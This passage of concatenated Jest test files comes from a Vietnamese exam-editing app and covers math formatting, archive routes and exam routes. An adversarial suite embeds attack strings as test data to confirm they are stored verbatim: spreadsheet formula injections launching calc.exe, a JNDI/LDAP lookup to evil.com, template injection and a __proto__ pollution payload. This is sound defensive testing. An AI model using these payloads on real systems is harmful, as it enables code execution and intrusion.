  test('TC-ML-12: gop cum $...$ ke nhau qua toan tu thanh 1 cong thuc', () => {
    expect(promoteStructuralMath('√80 + √5')).toBe('$\\sqrt{80} + \\sqrt{5}$');
    expect(promoteStructuralMath('√16 = 4')).toBe('$\\sqrt{16} = 4$');
  });

  test('TC-ML-13: KHONG dung vao noi dung da nam trong $...$', () => {
    const raw = 'Cho $a \\ge 0$ va $\\sqrt{a}$, tính $\\frac{a}{2}$.';
    expect(promoteStructuralMath(raw)).toBe(raw);
  });

  test('TC-ML-14: van xuoi thuan (khong co toan) giu nguyen', () => {
    expect(promoteStructuralMath('Trình bày nguyên nhân biến đổi khí hậu.'))
      .toBe('Trình bày nguyên nhân biến đổi khí hậu.');
  });

  test('TC-ML-15: ky hieu 1 hang KHONG bi boc (de formatMathSymbols lo)', () => {
    expect(promoteStructuralMath('x^2 + y^2 <= 4')).toBe('x^2 + y^2 <= 4');
    expect(promoteStructuralMath('a * b = c')).toBe('a * b = c');
  });

  test('TC-ML-16 [Edge]: dau vao rong / khong phai string', () => {
    expect(promoteStructuralMath('')).toBe('');
    expect(promoteStructuralMath(null)).toBe(null);
    expect(promoteStructuralMath(undefined)).toBe(undefined);
  });

  test('TC-ML-17: IDEMPOTENT - chay lai lan 2, 3 khong doi them', () => {
    const cases = [
      'Ket qua \\sqrt{16} = 4',
      'phép tính √80 / √5 là',
      '2 / √3',
      '(2 * √3) / (√3 * √3)',
      '√((√3+1)²)',
      'Cho $a \\ge 0$ va \\sqrt{a}.',
      'x^2 + y^2 <= 4'
    ];
    for (const c of cases) {
      const once = promoteStructuralMath(c);
      const twice = promoteStructuralMath(once);
      const thrice = promoteStructuralMath(twice);
      expect(twice).toBe(once);
      expect(thrice).toBe(once);
    }
  });

  test('TC-ML-18: ngoac khong khop -> giu nguyen la text, khong treo', () => {
    expect(promoteStructuralMath('√(x + 1')).toBe('√(x + 1');
    expect(promoteStructuralMath('sqrt(16')).toBe('sqrt(16');
    expect(promoteStructuralMath('\\sqrt{16')).toBe('\\sqrt{16');
  });
});

```

### FILE: tests/routes/archiveRoutes.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';

const express = require('express');
const request = require('supertest');
const { closeDb, getDb } = require('../../backend/database');
const archiveRoutes = require('../../backend/routes/archiveRoutes');
const { errorHandler } = require('../../backend/errorHandler');

function buildApp() {
  const app = express();
  app.use(express.json({ limit: '5mb' }));
  app.use('/api/archive', archiveRoutes);
  app.use(errorHandler);
  return app;
}

afterEach(async () => {
  jest.restoreAllMocks();
  await closeDb();
});

const BLOCKS = [
  {
    block_type: 'MULTIPLE_CHOICE',
    block_title: 'Phan I',
    questions: [
      {
        question_type: 'MCQ', content: '2 + 2 = ?', difficulty_level: 'NB', correct_answer: 'B',
        options: [
          { option_key: 'A', option_text: '3', is_correct: false },
          { option_key: 'B', option_text: '4', is_correct: true }
        ]
      }
    ]
  }
];

function examBody(over = {}) {
  return { title: 'De HK1', subject: 'Toan', duration_minutes: 45, school_header: 'THPT X', blocks: BLOCKS, ...over };
}

describe('POST /api/archive', () => {
  describe('Happy Path', () => {
    test('TC-ARC-01: luu de moi tra ve exam_id, xuat hien trong danh sach', async () => {
      const app = buildApp();
      const res = await request(app).post('/api/archive').send(examBody());
      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
      expect(res.body.exam_id).toMatch(/^[0-9a-f-]{36}$/);
      expect(res.body.updated).toBe(false);

      const list = await request(app).get('/api/archive');
      expect(list.body.exams).toHaveLength(1);
      expect(list.body.exams[0].title).toBe('De HK1');
    });

    test('TC-ARC-02: gui lai kem exam_id -> cap nhat tai cho, khong tao dong moi', async () => {
      const app = buildApp();
      const first = await request(app).post('/api/archive').send(examBody({ title: 'Ban 1' }));
      const id = first.body.exam_id;

      const second = await request(app).post('/api/archive').send(examBody({ exam_id: id, title: 'Ban 2 da sua' }));
      expect(second.body.exam_id).toBe(id);
      expect(second.body.updated).toBe(true);

      const list = await request(app).get('/api/archive');
      expect(list.body.exams).toHaveLength(1);
      expect(list.body.exams[0].title).toBe('Ban 2 da sua');
    });

    test('TC-ARC-03: GET /:id tra ve payload day du (blocks)', async () => {
      const app = buildApp();
      const saved = await request(app).post('/api/archive').send(examBody());
      const res = await request(app).get(`/api/archive/${saved.body.exam_id}`);
      expect(res.status).toBe(200);
      expect(res.body.exam.blocks).toEqual(BLOCKS);
      expect(res.body.exam.subject).toBe('Toan');
    });

    test('template snapshot survives save, legacy autosave, and explicit clearing', async () => {
      const app = buildApp();
      const binding = {
        schema_version: 1, template_id: 'builtin.t01', template_version: 1,
        template_snapshot: { sections: [{ section_id: 's1', slots: [{ slot_id: 'q1', points: '1.00' }] }] },
        asset_manifest: [{ asset_id: 'sha256:abc', local_availability: 'missing' }]
      };
      const saved = await request(app).post('/api/archive').send(examBody({ template_binding: binding }));
      expect((await request(app).get(`/api/archive/${saved.body.exam_id}`)).body.exam.template_binding).toEqual(binding);
      await request(app).post('/api/archive').send(examBody({ exam_id: saved.body.exam_id, title: 'Legacy autosave' }));
      expect((await request(app).get(`/api/archive/${saved.body.exam_id}`)).body.exam.template_binding).toEqual(binding);
      await request(app).post('/api/archive').send(examBody({ exam_id: saved.body.exam_id, template_binding: null }));
      expect((await request(app).get(`/api/archive/${saved.body.exam_id}`)).body.exam.template_binding).toBeNull();
    });

    test('template asset references become a checksum manifest with an explicit missing-asset fallback', async () => {
      const app = buildApp();
      const imageId = `image-${'b'.repeat(64)}`;
      const documentId = `document-${'c'.repeat(64)}`;
      const binding = {
        schema_version: 1, template_id: 'custom.imported', template_version: 1,
        template_snapshot: { appearance: { background: { source_asset_id: documentId, pages: [{ page_number: 3, asset_id: imageId }] } }, sections: [{ section_id: 's1', slots: [{ slot_id: 'q1', assets: [{ asset_id: `image-${'d'.repeat(64)}` }] }] }] },
        asset_manifest: []
      };
      const saved = await request(app).post('/api/archive').send(examBody({ template_binding: binding }));
      const result = (await request(app).get(`/api/archive/${saved.body.exam_id}`)).body.exam.template_binding.asset_manifest;
      expect(result).toHaveLength(3);
      expect(result.find(asset => asset.asset_id === documentId)).toMatchObject({ kind: 'document', sha256: 'c'.repeat(64), role: 'source_document', transfer: 'reference_only' });
      expect(result.find(asset => asset.asset_id === imageId)).toMatchObject({ page_number: 3, role: 'page_background', fallback: expect.any(String) });
      expect(result.find(asset => asset.role === 'question_illustration').local_availability).toBe('not_verified');
    });
  });

  describe('Negative Cases', () => {
    test('TC-ARC-04: thieu title -> 400', async () => {
      const res = await request(buildApp()).post('/api/archive').send(examBody({ title: '' }));
      expect(res.status).toBe(400);
    });

    test('TC-ARC-05: blocks khong phai mang -> 400', async () => {
      const res = await request(buildApp()).post('/api/archive').send(examBody({ blocks: 'oops' }));
      expect(res.status).toBe(400);
    });

    test('TC-ARC-06: block_type sai -> 400 kem details', async () => {
      const bad = [{ block_type: 'KHONG_CO', questions: [] }];
      const res = await request(buildApp()).post('/api/archive').send(examBody({ blocks: bad }));
      expect(res.status).toBe(400);
      expect(Array.isArray(res.body.details)).toBe(true);
    });

    test('TC-ARC-07: MCQ trung option_key -> 400', async () => {
      const bad = [{
        block_type: 'MULTIPLE_CHOICE', questions: [{
          question_type: 'MCQ', content: 'x', difficulty_level: 'NB',
          options: [
            { option_key: 'A', option_text: '1', is_correct: false },
            { option_key: 'A', option_text: '2', is_correct: true }
          ]
        }]
      }];
      const res = await request(buildApp()).post('/api/archive').send(examBody({ blocks: bad }));
      expect(res.status).toBe(400);
    });
  });

  describe('Exception Handling', () => {
    test('TC-ARC-08: loi CSDL khi ghi -> 500', async () => {
      const db = await getDb();
      jest.spyOn(db, 'run').mockRejectedValueOnce(new Error('disk full'));
      const res = await request(buildApp()).post('/api/archive').send(examBody());
      expect(res.status).toBe(500);
    });
  });
});

describe('DELETE /api/archive/:id (xoa mem)', () => {
  test('TC-ARC-09: xoa an de khoi danh sach nhung van con dong tombstone', async () => {
    const app = buildApp();
    const saved = await request(app).post('/api/archive').send(examBody());
    const id = saved.body.exam_id;

    const del = await request(app).delete(`/api/archive/${id}`);
    expect(del.status).toBe(200);

    const list = await request(app).get('/api/archive');
    expect(list.body.exams).toHaveLength(0);

    const get = await request(app).get(`/api/archive/${id}`);
    expect(get.status).toBe(404);

    const db = await getDb();
    const row = await db.get('SELECT deleted_at FROM SAVED_EXAM WHERE exam_id = ?', [id]);
    expect(row.deleted_at).not.toBeNull();
  });

  test('TC-ARC-10: xoa de khong ton tai -> 404', async () => {
    const res = await request(buildApp()).delete('/api/archive/00000000-0000-0000-0000-000000000000');
    expect(res.status).toBe(404);
  });

  test('TC-ARC-11: autosave (POST kem exam_id) KHONG hoi sinh de da xoa', async () => {
    const app = buildApp();
    const saved = await request(app).post('/api/archive').send(examBody());
    const id = saved.body.exam_id;
    await request(app).delete(`/api/archive/${id}`);

    await request(app).post('/api/archive').send(examBody({ exam_id: id, title: 'sua tiep' }));

    const list = await request(app).get('/api/archive');
    expect(list.body.exams.find(e => e.exam_id === id)).toBeUndefined();
  });
});

```

### FILE: tests/routes/examRoutes.adversarial.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';

const express = require('express');
const request = require('supertest');
const { getDb, closeDb } = require('../../backend/database');
const examRoutes = require('../../backend/routes/examRoutes');
const { errorHandler } = require('../../backend/errorHandler');

/**
 * Bo test "adversarial": khong chi kiem tra "input sai dinh dang" thong
 * thuong, ma con fuzz/tan cong co chu dich - race condition, prototype
 * pollution, mass assignment, unicode cuc bien, payload khong lo, sai
 * Content-Type/HTTP verb, gia tri so am/vo cuc, share_code doc hai...
 */
function buildApp() {
  const app = express();
  app.use(express.json({ limit: '5mb' }));
  app.use('/api/exams', examRoutes);
  app.use(errorHandler);
  return app;
}

function mcqQuestion(overrides = {}) {
  return {
    question_type: 'MCQ',
    content: 'Cau hoi mac dinh?',
    difficulty_level: 'NB',
    correct_answer: 'A',
    options: [
      { option_key: 'A', option_text: '1', is_correct: true },
      { option_key: 'B', option_text: '2', is_correct: false }
    ],
    ...overrides
  };
}

function examPayload(overrides = {}) {
  return {
    title: 'De adversarial',
    blocks: [{ block_type: 'MULTIPLE_CHOICE', questions: [mcqQuestion()] }],
    ...overrides
  };
}

let consoleErrorSpy;
beforeAll(() => { consoleErrorSpy = jest.spyOn(console, 'error').mockImplementation(() => {}); });
afterAll(() => { consoleErrorSpy.mockRestore(); });
afterEach(async () => { await closeDb(); });

// -------------------------------------------------------------------------
// A. RACE CONDITION / CONCURRENCY
// -------------------------------------------------------------------------
describe('Race condition: nhieu request /save chay dong thoi', () => {
  test('TC-ADV-01 [Critical - da sua]: 20 request POST /save dong thoi deu thanh cong, khong dan xen du lieu, server khong crash', async () => {
    // Truoc khi sua: ung dung dung 1 ket noi SQLite dung chung, va 2 request
    // /save chay dong thoi se cung goi BEGIN TRANSACTION xen ke nhau tren
    // cung 1 ket noi -> SQLite nem "cannot start a transaction within a
    // transaction". ROLLBACK sau do CUNG that bai (khong co giao dich nao
    // dang mo cho RIENG request nay) va thoat khoi try/catch thanh mot
    // unhandled promise rejection - LAM SAP TOAN BO TIEN TRINH NODE (da xac
    // nhan thuc te bang script doc lap ngoai Jest, xem lich su sua doi).
    // Sau khi sua (backend/mutex.js + withLock() trong examRoutes.js), cac
    // giao dich duoc xep hang tuan tu tren cung 1 ket noi.
    const app = buildApp();
    const N = 20;

    const responses = await Promise.all(
      Array.from({ length: N }, (_, n) =>
        request(app).post('/api/exams/save').send(examPayload({
          title: `Exam-${n}`,
          blocks: [{
            block_type: 'MULTIPLE_CHOICE',
            questions: Array.from({ length: 5 }, (_, i) => mcqQuestion({ content: `Q${i} cua de ${n}` }))
          }]
        }))
      )
    );

    responses.forEach(res => {
      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
    });

    // Doc lai tung de, xac nhan KHONG co du lieu bi tron lan giua cac request.
    for (let n = 0; n < N; n++) {
      const examId = responses[n].body.exam_id;
      const getRes = await request(app).get(`/api/exams/${examId}`);
      const exam = getRes.body.exam;
      expect(exam.title).toBe(`Exam-${n}`);
      const allQuestions = exam.blocks.flatMap(b => b.questions);
      expect(allQuestions).toHaveLength(5);
      expect(allQuestions.every(q => q.content.includes(`de ${n}`))).toBe(true);
    }
  }, 20000);

  test('TC-ADV-02: 10 request /save xen ke voi 10 request /share dong thoi khong lam crash server', async () => {
    const app = buildApp();

    const saveResponses = await Promise.all(
      Array.from({ length: 10 }, () => request(app).post('/api/exams/save').send(examPayload()))
    );
    saveResponses.forEach(res => expect(res.status).toBe(200));

    const mixedResponses = await Promise.all(
      saveResponses.flatMap((res, i) => [
        request(app).post('/api/exams/save').send(examPayload({ title: `Extra-${i}` })),
        request(app).post('/api/exams/share').send({ exam_id: res.body.exam_id })
      ])
    );
    mixedResponses.forEach(res => {
      expect([200, 404]).toContain(res.status);
    });
  }, 20000);
});

// -------------------------------------------------------------------------
// B. PROTOTYPE POLLUTION
// -------------------------------------------------------------------------
describe('Prototype pollution', () => {
  test('TC-ADV-03: body chua "__proto__" o cap cao nhat khong lam o nhiem Object.prototype toan cuc', async () => {
    const app = buildApp();
    const maliciousPayload = JSON.parse(
      `{"title":"De co proto","blocks":[{"block_type":"MULTIPLE_CHOICE","questions":[{"question_type":"MCQ","content":"x","options":[{"option_key":"A","option_text":"1"},{"option_key":"B","option_text":"2"}]}]}],"__proto__":{"polluted_marker_adv03":true}}`
    );

    await request(app).post('/api/exams/save').send(maliciousPayload);

    expect({}.polluted_marker_adv03).toBeUndefined();
    expect(Object.prototype.polluted_marker_adv03).toBeUndefined();
  });

  test('TC-ADV-04: title/content chua chuoi "__proto__" hoac "constructor.prototype" duoc luu nhu van ban thuong, khong bi dien giai', async () => {
    const app = buildApp();
    const res = await request(app).post('/api/exams/save').send(examPayload({
      title: '__proto__',
      blocks: [{
        block_type: 'MULTIPLE_CHOICE',
        questions: [mcqQuestion({ content: 'a.constructor.prototype.polluted = true; //' })]
      }]
    }));
    expect(res.status).toBe(200);

    const getRes = await request(app).get(`/api/exams/${res.body.exam_id}`);
    expect(getRes.body.exam.title).toBe('__proto__');
    expect(getRes.body.exam.blocks[0].questions[0].content).toBe('a.constructor.prototype.polluted = true; //');
    expect({}.polluted).toBeUndefined();
  });
});

// -------------------------------------------------------------------------
// C. INJECTION-STYLE CONTENT (formula injection, khong duoc "thuc thi")
// -------------------------------------------------------------------------
describe('Noi dung dang cong thuc/injection duoc luu nguyen van', () => {
  test.each([
    '=cmd|\'/c calc.exe\'!A1',
    '+1+1',
    '-2+3+cmd|\' /c calc\'!A1',
    '@SUM(1,2,3)',
    '${jndi:ldap://evil.com/a}',
    '{{7*7}}'
  ])('TC-ADV-05: noi dung cau hoi la "%s" duoc luu/tra ve nguyen van, khong bi thuc thi/noi suy', async (payload) => {
    const app = buildApp();
    const res = await request(app).post('/api/exams/save').send(examPayload({
      blocks: [{ block_type: 'MULTIPLE_CHOICE', questions: [mcqQuestion({ content: payload })] }]
    }));
    const getRes = await request(app).get(`/api/exams/${res.body.exam_id}`);
    expect(getRes.body.exam.blocks[0].questions[0].content).toBe(payload);
  });
});

// -------------------------------------------------------------------------
// D. UNICODE / CHUOI CUC BIEN
// -------------------------------------------------------------------------
describe('Unicode va chuoi cuc bien', () => {
  test('TC-ADV-06: emoji, chu Han, chu A-rap (RTL) duoc luu/doc lai chinh xac tung byte (round-trip UTF-8)', async () => {
    const app = buildApp();
    const weirdContent = '😀🎉 你好世界 مرحبا بالعالم Việt Nam ăâêôơư 🚀';
    const res = await request(app).post('/api/exams/save').send(examPayload({
      blocks: [{ block_type: 'MULTIPLE_CHOICE', questions: [mcqQuestion({ content: weirdContent })] }]
    }));
    const getRes = await request(app).get(`/api/exams/${res.body.exam_id}`);
    expect(getRes.body.exam.blocks[0].questions[0].content).toBe(weirdContent);
  });

  test('TC-ADV-07: noi dung rat dai (100,000 ky tu) duoc luu/doc lai day du, khong bi cat bot', async () => {
    const app = buildApp();
    const longContent = 'A'.repeat(100000);
    const res = await request(app).post('/api/exams/save').send(examPayload({
      blocks: [{ block_type: 'MULTIPLE_CHOICE', questions: [mcqQuestion({ content: longContent })] }]
    }));
    expect(res.status).toBe(200);
    const getRes = await request(app).get(`/api/exams/${res.body.exam_id}`);
    expect(getRes.body.exam.blocks[0].questions[0].content).toHaveLength(100000);
  });

  test('TC-ADV-08 [Ghi nhan hanh vi]: ky tu null byte (\\u0000) trong noi dung khong lam crash request', async () => {
    const app = buildApp();
    const contentWithNull = 'truocsau';
    const res = await request(app).post('/api/exams/save').send(examPayload({
      blocks: [{ block_type: 'MULTIPLE_CHOICE', questions: [mcqQuestion({ content: contentWithNull })] }]
    }));
    // Ghi nhan hanh vi thuc te (SQLite/Node co the giu nguyen hoac xu ly
    // khac null byte tuy driver) - dieu quan trong nhat la KHONG crash.
    expect(res.status).toBe(200);
    const getRes = await request(app).get(`/api/exams/${res.body.exam_id}`);
    expect(getRes.status).toBe(200);
  });
});

// -------------------------------------------------------------------------
// E. MASS ASSIGNMENT
// -------------------------------------------------------------------------
describe('Mass assignment', () => {
  test('TC-ADV-09: client tu gui "exam_id" trong body KHONG the ghi de UUID do server sinh ra', async () => {
    const app = buildApp();
    const res = await request(app).post('/api/exams/save').send(examPayload({
      exam_id: 'attacker-chosen-id',
      created_at: '1999-01-01'
    }));
    expect(res.status).toBe(200);
    expect(res.body.exam_id).not.toBe('attacker-chosen-id');
    expect(res.body.exam_id).toMatch(/^[0-9a-f-]{36}$/);

    const getRes = await request(app).get('/api/exams/attacker-chosen-id');
    expect(getRes.status).toBe(404); // ID gia mao khong ton tai
  });
});

// -------------------------------------------------------------------------
// F. SAI CONTENT-TYPE / HTTP VERB
// -------------------------------------------------------------------------
describe('Sai Content-Type / HTTP verb', () => {
  test('TC-ADV-10: gui JSON voi Content-Type sai (text/plain) khong lam crash, tra ve 400 co kiem soat', async () => {
    const app = buildApp();
    const res = await request(app)
      .post('/api/exams/save')
      .set('Content-Type', 'text/plain')
      .send(JSON.stringify(examPayload()));
    // express.json() khong parse body vi sai Content-Type -> req.body rong
    // -> route tu choi vi thieu "title", khong crash.
    expect(res.status).toBe(400);
  });

  test('TC-ADV-11: goi sai phuong thuc HTTP (GET thay vi POST) len /save tra ve 404, khong crash', async () => {
    const app = buildApp();
    const res = await request(app).get('/api/exams/save');
    expect(res.status).toBe(404);
  });

  test('TC-ADV-11b: goi PUT/PATCH len cac endpoint hien co deu tra ve 404 (khong dinh nghia), khong crash', async () => {
    const app = buildApp();
    const res1 = await request(app).put('/api/exams/save').send(examPayload());
    const res2 = await request(app).patch('/api/exams/some-id');
    expect(res1.status).toBe(404);
    expect(res2.status).toBe(404);
  });
});

// -------------------------------------------------------------------------
// G. SHARE_CODE BIEN / DOC HAI
// -------------------------------------------------------------------------
describe('share_code bien va doc hai', () => {
  test('TC-ADV-12: share_code cuc dai (10,000 ky tu) khong lam crash/treo, tra ve 404 nhanh', async () => {
    const app = buildApp();
    const hugeCode = 'a'.repeat(10000);
    const start = Date.now();
    const res = await request(app).get(`/api/exams/shared/${hugeCode}`);
    const elapsed = Date.now() - start;
    expect(res.status).toBe(404);
    expect(elapsed).toBeLessThan(2000); // khong co dau hieu ReDoS/treo
  });

  test('TC-ADV-13: share_code chua ky tu dai dien SQL LIKE (%, _) duoc so khop CHINH XAC (khong phai pattern)', async () => {
    const app = buildApp();
    const saveRes = await request(app).post('/api/exams/save').send(examPayload());
    const shareRes = await request(app).post('/api/exams/share').send({ exam_id: saveRes.body.exam_id });
    const realCode = shareRes.body.share_code;

    // "%" va "_" trong SQL LIKE la wildcard, nhung route dung so sanh "="
    // (khong phai LIKE) nen phai KHONG khop bat ky gia tri nao khac.
    // Dung "%25" (ma hoa URL hop le cua ky tu "%") vi mot dau "%" tho khong
    // theo sau boi 2 chu so hex se khien chinh Express bao "URI malformed"
    // truoc ca khi vao duoc route - do la hanh vi bao ve san co cua Express,
    // khong phai dieu dang kiem thu o day.
    const res = await request(app).get('/api/exams/shared/%25');
    expect(res.status).toBe(404);
    const res2 = await request(app).get(`/api/exams/shared/${realCode.slice(0, -1)}_`);
    expect(res2.status).toBe(404);
  });

  test('TC-ADV-13b [Ghi nhan hanh vi]: dau "%" tho (URI khong hop le) trong URL bi Express tu choi truoc khi vao route, van tra ve JSON co kiem soat qua errorHandler, khong crash', async () => {
    const app = buildApp();
    const res = await request(app).get('/api/exams/shared/%');
    expect(res.status).toBe(500); // Express nem loi decodeURIComponent truoc khi den route handler
    expect(res.body).toEqual({ success: false, error: expect.any(String) });
  });

  test('TC-ADV-14: xoa share voi ma trong (DELETE /api/exams/share/) khop route khac hoac 404, khong crash', async () => {
    const app = buildApp();
    const res = await request(app).delete('/api/exams/share/');
    expect([404]).toContain(res.status);
  });
});

// -------------------------------------------------------------------------
// H. GIA TRI SO BIEN / AM / QUA LON
// -------------------------------------------------------------------------
describe('Gia tri so bien', () => {
  test('TC-ADV-15 [Ghi nhan hanh vi]: expires_in_days am tao ra link da het han ngay tu luc tao', async () => {
    const app = buildApp();
    const saveRes = await request(app).post('/api/exams/save').send(examPayload());
    const shareRes = await request(app)
      .post('/api/exams/share')
      .send({ exam_id: saveRes.body.exam_id, expires_in_days: -5 });
    expect(shareRes.status).toBe(200);

    const getRes = await request(app).get(`/api/exams/shared/${shareRes.body.share_code}`);
    expect(getRes.status).toBe(410); // da het han vi expires_at nam trong qua khu
  });

  test('TC-ADV-16 [Ghi nhan hanh vi]: draft_lines_count cuc lon (1,000,000) van duoc luu, khong crash server', async () => {
    const app = buildApp();
    const res = await request(app).post('/api/exams/save').send(examPayload({
      blocks: [{
        block_type: 'ESSAY',
        questions: [{ question_type: 'ESSAY', content: 'x', draft_lines_count: 1000000 }]
      }]
    }));
    expect(res.status).toBe(200);
    const getRes = await request(app).get(`/api/exams/${res.body.exam_id}`);
    expect(getRes.body.exam.blocks[0].questions[0].draft_lines_count).toBe(1000000);
  });

  test('TC-ADV-17 [Da sua]: MCQ co 2 lua chon trung option_key (2 lan "A") bi validateExamPayload tu choi (400)', async () => {
    const app = buildApp();
    const res = await request(app).post('/api/exams/save').send(examPayload({
      blocks: [{
        block_type: 'MULTIPLE_CHOICE',
        questions: [mcqQuestion({
          options: [
            { option_key: 'A', option_text: '1' },
            { option_key: 'A', option_text: '2' }
          ]
        })]
      }]
    }));
    expect(res.status).toBe(400);
    expect(res.body.details[0]).toMatch(/trung option_key/);
  });
});

// -------------------------------------------------------------------------
// I. HIEU NANG / PAYLOAD LON
// -------------------------------------------------------------------------
describe('Payload lon', () => {
  test('TC-ADV-18: de thi co 200 cau hoi trong 1 block duoc luu va doc lai chinh xac trong thoi gian hop ly', async () => {
    const app = buildApp();
    const bigBlock = {
      block_type: 'MULTIPLE_CHOICE',
      questions: Array.from({ length: 200 }, (_, i) => mcqQuestion({ content: `Cau so ${i}` }))
    };

    const start = Date.now();
    const res = await request(app).post('/api/exams/save').send(examPayload({ blocks: [bigBlock] }));
    const saveElapsed = Date.now() - start;
    expect(res.status).toBe(200);
    expect(saveElapsed).toBeLessThan(15000);

    const getRes = await request(app).get(`/api/exams/${res.body.exam_id}`);
    expect(getRes.body.exam.blocks[0].questions).toHaveLength(200);
    expect(getRes.body.exam.blocks[0].questions[199].content).toBe('Cau so 199');
  }, 20000);
});

```

### FILE: tests/routes/examRoutes.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';

const express = require('express');
const request = require('supertest');
const { getDb, closeDb } = require('../../backend/database');
const examRoutes = require('../../backend/routes/examRoutes');
const { errorHandler } = require('../../backend/errorHandler');

function buildApp() {
  const app = express();
  app.use(express.json({ limit: '5mb' }));
  app.use('/api/exams', examRoutes);
  app.use(errorHandler); // dung chung middleware voi server.js (xem TC-API-13)
  return app;
}

const validMcqBlock = {
  block_type: 'MULTIPLE_CHOICE',
  block_title: 'Phan I. Trac nghiem',
  questions: [
    {
      question_type: 'MCQ',
      content: '2 + 2 = ?',
      difficulty_level: 'NB',
      correct_answer: 'A',
      explanation: 'vi 2+2=4',
      options: [
        { option_key: 'A', option_text: '4', is_correct: true },
        { option_key: 'B', option_text: '3', is_correct: false }
      ]
    }
  ]
};

const validEssayBlock = {
  block_type: 'ESSAY',
  block_title: 'Phan II. Tu luan',
  questions: [
    {
      question_type: 'ESSAY',
      content: 'Giai phuong trinh x^2 - 4 = 0',
      difficulty_level: 'VDC',
      explanation: 'x = 2 hoac x = -2',
      draft_lines_count: 6
    }
  ]
};

function validExamPayload(overrides = {}) {
  return {
    title: 'De kiem tra HK1',
    subject: 'Toan',
    duration_minutes: 45,
    school_header: 'Truong THPT ABC',
    blocks: [validMcqBlock, validEssayBlock],
    ...overrides
  };
}

// SQLite3 se log loi ra console.error khi 1 cau lenh trong transaction that
// bai (du da duoc try/catch bat va ROLLBACK dung). Tat console.error trong
// suot file test nay de output gon gang, khong che giau assertion nao.
let consoleErrorSpy;
beforeAll(() => { consoleErrorSpy = jest.spyOn(console, 'error').mockImplementation(() => {}); });
afterAll(() => { consoleErrorSpy.mockRestore(); });

afterEach(async () => { await closeDb(); });

describe('POST /api/exams/save', () => {
  describe('Happy Path', () => {
    test('TC-API-01: luu de day du (MCQ + ESSAY) tra ve 200 va exam_id dang UUID', async () => {
      const res = await request(buildApp()).post('/api/exams/save').send(validExamPayload());
      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
      expect(res.body.exam_id).toMatch(/^[0-9a-f-]{36}$/);
    });

    test('TC-API-02: luu de chi co block MULTIPLE_CHOICE (khong co tu luan) thanh cong', async () => {
      const res = await request(buildApp())
        .post('/api/exams/save')
        .send(validExamPayload({ blocks: [validMcqBlock] }));
      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
    });
  });

  describe('Edge Cases', () => {
    test('TC-API-03 [Edge]: blocks = [] (mang rong) hien dang duoc CHAP NHAN, tao ra de khong co cau hoi nao', async () => {
      // Ghi chu: day la hanh vi hien tai (co the khong phai chu y ban dau).
      // API chi kiem tra Array.isArray(blocks), khong kiem tra blocks.length > 0.
      const res = await request(buildApp()).post('/api/exams/save').send(validExamPayload({ blocks: [] }));
      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
    });

    test('TC-API-04: cac truong tuy chon (subject, duration_minutes, school_header) co the bo trong', async () => {
      const res = await request(buildApp())
        .post('/api/exams/save')
        .send({ title: 'De toi gian', blocks: [validMcqBlock] });
      expect(res.status).toBe(200);

      const getRes = await request(buildApp()).get(`/api/exams/${res.body.exam_id}`);
      expect(getRes.body.exam.subject).toBeNull();
      expect(getRes.body.exam.duration_minutes).toBeNull();
      expect(getRes.body.exam.school_header).toBeNull();
    });

    test('TC-API-05: tieu de rat dai (5000 ky tu) van luu thanh cong (TEXT khong gioi han do dai)', async () => {
      const longTitle = 'A'.repeat(5000);
      const res = await request(buildApp())
        .post('/api/exams/save')
        .send(validExamPayload({ title: longTitle }));
      expect(res.status).toBe(200);
      const getRes = await request(buildApp()).get(`/api/exams/${res.body.exam_id}`);
      expect(getRes.body.exam.title).toHaveLength(5000);
    });

    test('TC-API-09 [Edge]: "blocks" bi thieu hoan toan (undefined) mac dinh thanh mang rong va van duoc chap nhan (200)', async () => {
      // Ghi chu: destructuring `blocks = []` khien request khong co "blocks"
      // duoc coi la de hop le voi 0 block, thay vi bi tu choi 400. Neu day
      // khong phai hanh vi mong muon, nen validate blocks.length > 0.
      const res = await request(buildApp()).post('/api/exams/save').send({ title: 'De khong co blocks' });
      expect(res.status).toBe(200);
      expect(res.body.success).toBe(true);
    });
  });

  describe('Negative Cases', () => {
    test('TC-API-07: thieu truong "title" bat buoc tra ve 400', async () => {
      const res = await request(buildApp())
        .post('/api/exams/save')
        .send({ blocks: [validMcqBlock] });
      expect(res.status).toBe(400);
      expect(res.body.success).toBe(false);
    });

    test('TC-API-08: "blocks" khong phai mang (la chuoi) tra ve 400', async () => {
      const res = await request(buildApp())
        .post('/api/exams/save')
        .send({ title: 'De loi', blocks: 'khong-phai-mang' });
      expect(res.status).toBe(400);
    });

    test('TC-API-10 [Da sua]: question_type ngoai enum bi validateExamPayload() chan tu tang API (400), khong cham toi CSDL', async () => {
      // Truoc khi sua gap #3: gia tri nay lot qua toi tan CSDL va bi CHECK
      // constraint tu choi giua chung giao dich (500 + ROLLBACK). Sau khi
      // sua, request bi tu choi som hon (400) truoc khi mo transaction.
      const badPayload = validExamPayload({
        blocks: [{ block_type: 'MULTIPLE_CHOICE', questions: [{ question_type: 'LOAI_LA', content: 'x' }] }]
      });
      const res = await request(buildApp()).post('/api/exams/save').send(badPayload);
      expect(res.status).toBe(400);
      expect(res.body.success).toBe(false);
      expect(res.body.details[0]).toMatch(/question_type khong hop le/);

      const db = await getDb();
      const rows = await db.all('SELECT * FROM EXAM');
      expect(rows).toHaveLength(0);
    });

    test('TC-API-10b [Da sua]: MCQ voi it hon 2 lua chon bi tu choi o tang API (400)', async () => {
      const badPayload = validExamPayload({
        blocks: [{ block_type: 'MULTIPLE_CHOICE', questions: [{ question_type: 'MCQ', content: 'x', options: [{ option_key: 'A', option_text: '1' }] }] }]
      });
      const res = await request(buildApp()).post('/api/exams/save').send(badPayload);
      expect(res.status).toBe(400);
      expect(res.body.details[0]).toMatch(/it nhat 2 lua chon/);
    });

    test('TC-API-10c [Da sua]: MCQ voi correct_answer khong khop lua chon nao bi tu choi o tang API (400)', async () => {
      const badPayload = validExamPayload({
        blocks: [{
          block_type: 'MULTIPLE_CHOICE',
          questions: [{
            question_type: 'MCQ',
            content: 'x',
            correct_answer: 'Z',
            options: [{ option_key: 'A', option_text: '1' }, { option_key: 'B', option_text: '2' }]
          }]
        }]
      });
      const res = await request(buildApp()).post('/api/exams/save').send(badPayload);
      expect(res.status).toBe(400);
